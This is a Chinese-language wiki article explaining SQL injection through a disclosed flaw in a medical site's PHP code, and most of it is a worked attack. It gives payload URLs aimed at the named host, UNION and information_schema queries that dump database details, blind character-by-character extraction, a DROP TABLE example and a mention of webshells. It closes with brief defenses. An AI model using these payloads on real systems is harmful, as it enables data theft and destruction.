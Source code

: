 ### 一般类网站攻击：SQL注入

参考：[网页攻击](https://github.com/yangshiqi/wiki/blob/master/ysq/attack/client.md)


#### 事件起源

http://www.wooyun.org/bugs/wooyun-2013-015887 披露了"盲注拿后台权限+爆库"。

研究了一下入侵的手段，还是传统的sql injection。细看代码，如下：
 
```php
public function showPublishInfo($hospitalId , $type){
        $condition = ' 1 = 1 ';
        if($hospitalId != null)
        {
                if(is_array($hospitalId))
                {
                        $hospitalId = implode(',',$hospitalId);
                        $condition .= " and hospitalid in ($hospitalId) ";
                }
                else
                {
                        $condition .= " and hospitalid = $hospitalId ";
                }
        }
        $condition .= ($type=='check') ? " and isconfirmed = 0 " : '';
        $list = $this->find_all_by_condition('OfficialPublishInfo',$condition);
        return $list ;
}
```
 
 
 
典型的没有走绑定变量的接口，而直接拼接sql语句了。扩展开来，解释一下关于sql injection问题。定义："所谓SQL注入，就是通过把SQL命令插入到Web表单提交或输入域名或页面请求的查询字符串，最终达到欺骗服务器执行恶意的SQL命令"。
通过注入可以轻松拿到网站的db，如图：

![db](https://github.com/yangshiqi/wiki/blob/master/imgs/qcon-20140beijing-xiaomi-automation.pdf)


#### sql injection原理

如这个uri：http://publish.haodf.com/admin/showpublishinfo?type=&hospitalId=1

参数是type和hospitalId，可以作为输入点进行刺探，猜测程序原理如：

```php
$id=$_GET['hospitalId'];
$sets = mysql_query('select * from xxx where hospitalid='.$id);
```

sql injection的目的是为了达到可以让mysql执行如:

select * from xxx where hospitalId=$id and xxx 的目的，"and xxx"是通过入侵者通过参数输入的。

select * from xxx where hospitalId=0; drop table xxx;，通过参数输入的"; drop table xxx;，通过参数输入的"。



##### 首次刺探 

分别尝试：

and 1=1：http://publish.haodf.com/admin/showpublishinfo?type=&hospitalId=1+and+1%3D1
and 1=2：http://publish.haodf.com/admin/showpublishinfo?type=&hospitalId=1+and+1%3D2

看到返回结果不同，证明注入成功了，因为1=2这个是不成立的，导致sql没有查出结果。sql injection刺探的一切来源，皆是此类判断。

##### 继续拿详细信息

识别使用的mysql版本范围：ord(mid(version(),1,1))>51

如：http://publish.haodf.com/admin/showpublishinfo?type=&hospitalId=1+and+ord%28mid%28version%28%29%2C1%2C1%29%29%3E51

发现返回正常页面，则说明是mysql，且版本大于4.0，支持union查询，反之是4.0以下版本或者其它类型db。

看下列数：order by N：select * from db_Hdf.officialpublishinfos where hospitalid=1 order by 2 根据列排序，逐步增加N来判断有多少列。

判断出列数后，就可以进一步利用网页展示信息来显示想要得到的数据了，假设db_Hdf.officialpublishinfos有4列，不存在hospitalid=0的数据，则：

```mysql
select * from db_Hdf.officialpublishinfos where hospitalid=0 union select 1,2,3,4
```

这样页面原本显示title，content，user，ctime的位置就显示了1，2，3，4。进而：

```mysql
select * from db_Hdf.officialpublishinfos where hospitalid=0 union select database(), version(), user(), now()
```

执行mysql命令就可以在页面中显示数据库名字，版本，用户，系统时间等敏感信息了，如：

nfs_avatar 5.5.23-log hdf@192.168.16.113 2013-01-08 15:39:54

##### 准备拿mysql的全景数据

在mysql5.0后增加了information_schema，一次性汇总了所有情况，方便拿到库，表，字段等等信息了，如：

```mysql
库：select * from information_schema.SCHEMATA
表：select * from information_schema.TABLES
列：select * from information_schema.COLUMNS
```

http://dev.mysql.com/doc/refman/5.1/zh/information-schema.html

##### 准备拿某个表的数据

```mysql
select * from db_Hdf.officialpublishinfos where hospitalid=1
and ascii(substring((select appbooking.id from db_Hdf.appbooking order by devicetoken limit 0,1),3,1))<56
```

暴力破解。可以看到原始数据：

```mysql
select appbooking.id from db_Hdf.appbooking Order by devicetoken limit 0,1 为：838811569
```

使用来逐位破解数值：

```mysql
ascii(substring((select appbooking.id from db_Hdf.appbooking order by devicetoken limit 0,1),M,N))<A 
```

838811569，第3位是"8"，ascii(8)=56，所以当执行上述时，56是个分界点（条件是否成立）。


逐位破解时间太久？可以利用算法优化，比如简单的折半查找等。

进一步修改数据等就看运气了，是否有帐号可以执行，略过不表。
 
#### 综上所述

sql injection的大致过程如下：

1. 定位url的参数；
2. 找到可以注入的点进行刺探；
3. 判断数据库类型；
4. 根据数据库类型来取得相关的信息；
5. 拿库，表，字段，权限等信息；
6. 寻找敏感信息，比如应用的权限表，账户，密码等；
7. 修改数据，寻找其它漏洞，攻破系统，webshell等高级行为。

#### WEBSHELL 
相比较sql injection来说，webshell威力更猛，http://baike.baidu.com/view/53110.htm 相当于木马，后门

#### SQL injection防范措施 

* 绑定变量，预编译sql；
* 限制sql执行权限，不使用管理员权限帐号；